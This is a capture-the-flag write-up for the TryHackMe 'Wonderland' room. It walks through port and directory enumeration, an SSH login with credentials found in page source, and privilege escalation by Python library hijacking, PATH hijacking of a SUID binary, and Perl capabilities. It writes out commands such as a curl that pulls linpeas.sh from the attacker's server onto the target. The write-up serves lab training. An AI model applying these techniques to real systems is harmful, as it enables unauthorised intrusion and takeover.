 Room: [Wonderland](https://tryhackme.com/room/wonderland)

Difficulty: Medium

Overview: This room is really interesting has you are going to exploit diferent types of privilege escalations, from PATH hijacking, scripting, analyzing binaries and setuid capabilities will make you privesc horizontaly from user to user till you get to root!

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

We start enumerating the machine by running nmap. 

Nmap is a free and open source utility for network discovery and security auditing. With this tool we can search for open ports on a target machine.

**nmap -sV -sC -p- 10.10.189.225 -oN nmap.txt**

-sV    →  Probe open ports to determine service

-sC    →  Scan using the default set of scripts

-p-    →  Scan all ports

-oN    →  Save the ouput of the scan in a file

![nmap](https://user-images.githubusercontent.com/76821053/120692473-b7f40980-c49f-11eb-982b-ebe00cb8f77a.png)

There are two open ports on the system:

22 →  OpenSSH 7.6p1 Ubuntu 

80 →  Golang net/http server

Since there is a http server running on the system we can take a look at it:

![httphome](https://user-images.githubusercontent.com/76821053/120692565-d78b3200-c49f-11eb-8ead-c1b985a7d705.png)

After searching the webpage and its source code page i found nothing. So there is a tool called “Gobuster” which can help us search for hidden directories or files in http servers:

**gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://10.10.189.225 -x .txt,.cgi,.php,.log,.bak,.xxx,.old**

dir             → Uses directory/file enumeration mode

--wordlist      → Path to wordslist 

--url           → specifies the path of the target url we want to find any hidden directories

-x              → Search for all files with the specified extentions 

![gobuster_r](https://user-images.githubusercontent.com/76821053/120692664-fc7fa500-c49f-11eb-8f64-f80ed0af4e7b.png)

We found a new directory:

![http_r](https://user-images.githubusercontent.com/76821053/120696717-c2fd6880-c4a4-11eb-838c-d15350d0c805.png)

After reading the “Keep going” tip, i ran “Gobuster” again and found another directory:

![gobuster_a](https://user-images.githubusercontent.com/76821053/120692819-2df87080-c4a0-11eb-9b62-3ac1c16100d9.png)

So if we pay close attention to where this is leading us, we can figure it out, or else we can always keep going with “Gobuster”.

We arrived at the path **"/r/a/b/b/i/t"**:

![http_rabbit](https://user-images.githubusercontent.com/76821053/120692924-4cf70280-c4a0-11eb-8dbc-855abf925ed2.png)

In the source code of the webpage there are credentials for connecting to the target machine through ssh.

![http_source](https://user-images.githubusercontent.com/76821053/120693064-7748c000-c4a0-11eb-9570-425f75026a74.png)

We have access to the target machine with user "Alice":

![ssh_alice](https://user-images.githubusercontent.com/76821053/120693141-8d568080-c4a0-11eb-9499-54b91b12833b.png)

When enumerating the machine in search for the flags, we can see that The flag “root.txt” is in “alice” home directory which is odd.

![ls_la_alice](https://user-images.githubusercontent.com/76821053/120693204-a2331400-c4a0-11eb-9b9a-2518386f5302.png)

After checking the hint given by the room “Everthing is upside down here” i tried to access /root.

![ls_root](https://user-images.githubusercontent.com/76821053/120693289-bd9e1f00-c4a0-11eb-8ad7-c1fcbe77d01e.png)

This is very strange since we cannot list any files in here, but still i manage to have access to /root directory. 

So taking a wild guess from the tips of the room we can try to read "user.txt" inside /root and find the first flag!

![cat_user txt](https://user-images.githubusercontent.com/76821053/120693405-deff0b00-c4a0-11eb-85aa-6cb6886e0b78.png)

In order to elevate our privileges we can check "sudo -l":

![sudo_l](https://user-images.githubusercontent.com/76821053/120693519-0229ba80-c4a1-11eb-8a03-e3ae516d5721.png)

To exploit this permission given to “alice” and gain access to user "rabbit" we can check a usefull post on medium about python library hijacking:

You can check it out here:

https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8

The script "walrus_and_the_carpenter.py" imports a module called random.

![script_walrus](https://user-images.githubusercontent.com/76821053/120693624-22597980-c4a1-11eb-96c5-a66b7a9e997e.png)

The random module is located in one of the defined python paths, but if python finds a module with the same name in a folder with higher priority, it will import that module instead of the “legit” one.

So if we try and create a “random.py” script that runs /bin/bash inside the same directory of “walrus_and_the_carpenter.py”. Maybe “walrus_and_the_carpenter.py” will call for this module instead of the defined python module paths.

Simple random.py script:

![simple_random](https://user-images.githubusercontent.com/76821053/120693774-592f8f80-c4a1-11eb-8bff-7b539b7fce35.png)

List the contents of the directory to make sure the scripts are in the same directory:

![list_folder_scripts](https://user-images.githubusercontent.com/76821053/120693870-76645e00-c4a1-11eb-98c6-2f6c1042ccac.png)

Now we just need to run the "sudo -l" command with "alice".

Note that we need to specify user “rabbit” since he is the one with sudo permissions to run that python script.

![alice_rabbit_privesc](https://user-images.githubusercontent.com/76821053/120694022-a3187580-c4a1-11eb-91db-e588c5e36d84.png)

Success we are now user “rabbit”, the script “walrus_and_the_carpenter.py" imported our “random.py” and ran it.

To further our privileges we will try to take advantage of a binary inside “rabbit” home directory:

![teaParty_rabbit](https://user-images.githubusercontent.com/76821053/120694146-c3e0cb00-c4a1-11eb-985b-a51767144fd0.png)

Run the binary:

![run_teaparty](https://user-images.githubusercontent.com/76821053/120694189-d22ee700-c4a1-11eb-87a3-2e60f53a814b.png)

The binary “teaParty” has SUID permissions, and to be able to read its contents we need to transfer it to our system, since we cannot run "strings" on the target machine.

To transfer the file to our system we need to change “rabbit” home directory permissions to "rwx (or 777)" for all users since we don't have "rabbits" ssh password.

![chmod_rabbit](https://user-images.githubusercontent.com/76821053/120694580-4ff2f280-c4a2-11eb-8107-e1065ce3a692.png)

From our machine we can run "scp" to download the file:

**scp alice@10.10.189.225:/home/rabbit/teaParty .**

![scp](https://user-images.githubusercontent.com/76821053/120694668-65681c80-c4a2-11eb-834b-15c31407b75f.png)

Now we gonna analyse the binary with "strings":

![strings_teaparty](https://user-images.githubusercontent.com/76821053/120694782-7f096400-c4a2-11eb-9419-da455c3d53f8.png)

We can see that the binary runs “/bin/echo” and also runs “date” but it don't specify the absolute path for "date".

This is another privilege escalation method here, we will take advantage of the SUID binary teaParty!

We have to create a small “date” bash script that executes /bin/bash and export $PATH to one specified by us and take advantage of “date” not having an absolute path.

![script_date](https://user-images.githubusercontent.com/76821053/120694943-ab24e500-c4a2-11eb-840e-5bf411021bbf.png)

Need to make “date” executable:

![chmod_date](https://user-images.githubusercontent.com/76821053/120694982-b9730100-c4a2-11eb-8d83-dbcebea4f85d.png)

Now just export the variable $PATH and run the binary:

![export_PATH](https://user-images.githubusercontent.com/76821053/120695104-e8897280-c4a2-11eb-8e86-803d5f22d0d4.png)

We manage the move horizontaly to another user and there is credentials in plain text in his home directory:

![hatter_creds](https://user-images.githubusercontent.com/76821053/120695203-0bb42200-c4a3-11eb-8772-8a03cfac1fc1.png)

I had a hard time with the user “hatter” in finding the last privilege escalation into “root” user.

we can use a tool called "[linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)" to automaticaly enumerate the system.

Now to upload the tool to the target system we need to started a python http server and use curl.

On our machine we setup the server where we host the “linpeas.sh” script:

**python -m SimpleHTTPServer**

![python_http](https://user-images.githubusercontent.com/76821053/120695863-c2180700-c4a3-11eb-85ee-d2251510af65.png)

From the target machine we will use curl:

**curl http://yourmachineip:8000/linpeas.sh -o linpeas.sh**

![curl_linpeas](https://user-images.githubusercontent.com/76821053/120695950-dcea7b80-c4a3-11eb-9a9c-44494c7f634c.png)

We need to make “linpeas.sh” executable:

![chmod_linpeas](https://user-images.githubusercontent.com/76821053/120695996-ed9af180-c4a3-11eb-80b8-592be139a4c2.png)

When running “linpeas.sh” i manage to found and interesting setuid binary capabilities:

![lin_capabilities](https://user-images.githubusercontent.com/76821053/120696069-03101b80-c4a4-11eb-8f58-114ca4412c41.png)

The root user (or any ID with UID of 0) gets a special privileges running processes. The kernel and applications are usually programmed to skip the restriction of some activities when seeing this user ID. 

More info on setuid capabilities can be found [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities).

I searched [GTFOBINS](https://gtfobins.github.io/gtfobins/perl/) and learned that **/usr/bin/perl** is found vulnerable to privesc.

![gtfobins](https://user-images.githubusercontent.com/76821053/120696194-2a66e880-c4a4-11eb-8d16-93fec8b6cf26.png)

Now to elevate our privileges to root we just need to execute this command:

![privesc_cat_root](https://user-images.githubusercontent.com/76821053/120696264-410d3f80-c4a4-11eb-877f-f4f6289e54c3.png)

Success! We found our last flag!














